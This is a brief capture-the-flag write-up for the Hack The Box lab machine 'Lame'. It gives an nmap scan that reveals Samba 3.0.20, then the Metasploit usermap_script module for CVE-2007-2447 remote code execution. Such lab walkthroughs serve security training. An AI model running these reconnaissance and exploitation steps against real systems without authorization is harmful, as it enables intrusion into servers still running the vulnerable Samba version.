 # Lame Write-Up

Easy

Tags: 
`Easy`
`Internal`
`Network`
`SAMBA`
`Penetration Tester Level 1`
`Remote Code Execution`
`CVE-2007-2447`
`Public Vulnerabilities`
`CVE Exploitation`
`Security Tools`

## Intro

1. Use exploit/multi/samba/usermap_script

## Exploit

### Port scanning

```
nmap -T4 -A -p 139,445 10.10.10.3 -Pn
```
```
PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)

Host script results:
|_clock-skew: mean: 2h07m57s, deviation: 2h49m43s, median: 7m56s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-05-01T05:37:54-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Search samba 3.0.20 on msf

```
use exploit/multi/samba/usermap_script
```

Set rhosts > run